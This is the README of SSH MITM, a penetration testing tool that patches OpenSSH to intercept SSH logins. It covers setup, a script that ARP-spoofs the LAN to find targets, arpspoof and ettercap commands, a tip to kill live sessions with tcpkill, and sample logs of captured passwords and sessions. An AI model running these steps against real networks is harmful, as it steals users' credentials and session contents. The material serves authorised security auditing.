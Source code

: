 # SSH MITM v2.0-dev

Author: [Joe Testa](https://www.positronsecurity.com/company/) ([@therealjoetesta](https://twitter.com/therealjoetesta))


## Overview

This penetration testing tool allows an auditor to intercept SSH connections.  A patch applied to the OpenSSH v7.5p1 source code causes it to act as a proxy between the victim and their intended SSH server; all plaintext passwords and sessions are logged to disk.

Of course, the victim's SSH client will complain that the server's key has changed.  But because 99.99999% of the time this is caused by a legitimate action (OS re-install, configuration change, etc), many/most users will disregard the warning and continue on.

**NOTE:** Only run the modified *sshd_mitm* in a VM or container!  Ad-hoc edits were made to the OpenSSH sources in critical regions, with no regard to their security implications.  Its not hard to imagine these edits introduce serious vulnerabilities.


## Change Log

* v2.0: August ??, 2017: Added full SFTP support(!)
* v1.1: July 6, 2017: Removed root privilege dependencies, added automatic installer, added Kali Linux support, added *JoesAwesomeSSHMITMVictimFinder.py* script to find potential targets on a LAN.
* v1.0: May 16, 2017: Initial revision.


## To Do

The following list tracks areas to improve:

* Add port forwarding support.
* Create wrapper script that detects when user is trying to use key authentication only, and de-spoof them automatically.


## Initial Setup

As root, run the *install.sh* script.  This will install prerequisites from the repositories, download the OpenSSH archive, verify its signature, compile it, and initialize a non-privileged environment to execute within.


## Finding Targets

The *JoesAwesomeSSHMITMVictimFinder.py* script makes finding targets on a LAN very easy.  It will ARP spoof a block of IPs and sniff for SSH traffic for a short period of time before moving on to the next block.  Any ongoing SSH connections originating from devices on the LAN are reported.

By default, *JoesAwesomeSSHMITMVictimFinder.py* will ARP spoof and sniff only 5 IPs at a time for 20 seconds before moving onto the next block of 5.  These parameters can be tuned, though a trade-off exists: the more IPs that are spoofed at a time, the greater the chance you will catch an ongoing SSH connection, but also the greater the strain you will put on your puny network interface.  Under too high of a load, your interface will start dropping frames, causing a denial-of-service and greatly raising suspicions (this is bad).  The defaults shouldn't cause problems in most cases, though it'll take longer to find targets.  The block size can be safely raised on low-utilization networks.

Example:

    # ./JoesAwesomeSSHMITMVictimFinder.py --interface enp0s3 --ignore-ips 10.11.12.50,10.11.12.53
    Found local address 10.11.12.141 and adding to ignore list.
    Using network CIDR 10.11.12.141/24.
    Found default gateway: 10.11.12.1
    IP blocks of size 5 will be spoofed for 20 seconds each.
    The following IPs will be skipped: 10.11.12.50 10.11.12.53 10.11.12.141


    Local clients:
      * 10.11.12.70 -> 174.129.77.155:22
      * 10.11.12.43 -> 10.11.99.2:22

The above output shows that two devices on the LAN have created SSH connections (10.11.12.43 and 10.11.12.70); these can be targeted for a man-in-the-middle attack.  Note, however, that in order to potentially intercept credentials, you'll have to wait for them to initiate new connections.  Impatient pentesters may opt to forcefully close existing SSH sessions (using the *tcpkill* tool), prompting clients to create new ones immediately...


## Running The Attack

1.) Once you've completed the initial setup and found a list of potential victims (see above), execute *start.sh* as root.  This will start *sshd_mitm*, enable IP forwarding, and set up SSH packet interception through *iptables*.

2.) ARP spoof the target(s) (**Protip:** do NOT spoof all the things!  Your puny network interface won't likely be able to handle an entire network's traffic all at once.  Only spoof a couple IPs at a time):

    arpspoof -r -t 192.168.x.1 192.168.x.5

Alternatively, you can use the *ettercap* tool:

    ettercap -i enp0s3 -T -M arp /192.168.x.1// /192.168.x.5,192.168.x.6//

3.) Monitor *auth.log*.  Intercepted passwords will appear here:

    sudo tail -f /var/log/auth.log

4.) Once a session is established, a full log of all input & output can be found in */home/ssh-mitm/session_\*.txt*.


## Sample Results

Upon success, */var/log/auth.log* will have lines that log the password, like this:

    May 16 23:14:01 showmeyourmoves sshd_mitm[16798]: INTERCEPTED PASSWORD: hostname: [10.199.30.x]; username: [jdog]; password: [supercalifragilistic] [preauth]

Furthermore, the victim's entire SSH session can be found in */home/ssh-mitm/session_\*.txt*:

    # cat /home/ssh-mitm/session_0.txt
    Last login: Tue May 16 21:35:00 2017 from 10.50.22.x
    OpenBSD 6.0-stable (GENERIC.MP) #12: Sat May  6 19:08:31 EDT 2017

    Welcome to OpenBSD: The proactively secure Unix-like operating system.

    Please use the sendbug(1) utility to report bugs in the system.
    Before reporting a bug, please try to reproduce it with the latest
    version of the code.  With bug reports, please try to ensure that
    enough information to reproduce the problem is enclosed, and if a
    known fix for it exists, include that as well.

    jdog@jefferson ~ $ ppss
      PID TT  STAT       TIME COMMAND
    59264 p0  Ss      0:00.02 -bash (bash)
    52132 p0  R+p     0:00.00 ps
    jdog@jefferson ~ $ iidd
    uid=1000(jdog) gid=1000(jdog) groups=1000(jdog), 0(wheel)
    jdog@jefferson ~ $ sssshh  jjtteessttaa@@mmaaggiiccbbooxx
    jtesta@magicbox's password: ROFLC0PTER!!1juan


Note that the characters in the user's commands appear twice in the file because the input from the user is recorded, as well as the output from the shell (which echoes characters back).  Observe that when programs like *sudo* and *ssh* temporarily disable echoing in order to read a password, duplicate characters are not logged.


## Developer Documentation

In *lol.h* are two defines: *DEBUG_HOST* and *DEBUG_PORT*.  Enable them and set the hostname to a test server.  Now you can connect to *sshd_mitm* directly without using ARP spoofing in order to test your changes, e.g.:

    ssh -p 2222 valid_user_on_debug_host@localhost

To create a new patch, use these commands:

    pushd openssh-7.5p1-mitm/; make clean; popd
    diff -ru --new-file -x '*~' -x 'config.*' -x Makefile -x opensshd.init -x survey.sh -x openssh.xml -x buildpkg.sh -x output.0 -x requests -x traces.0 -x configure openssh-7.5p1 openssh-7.5p1-mitm/ > openssh-7.5p1-mitm.patch
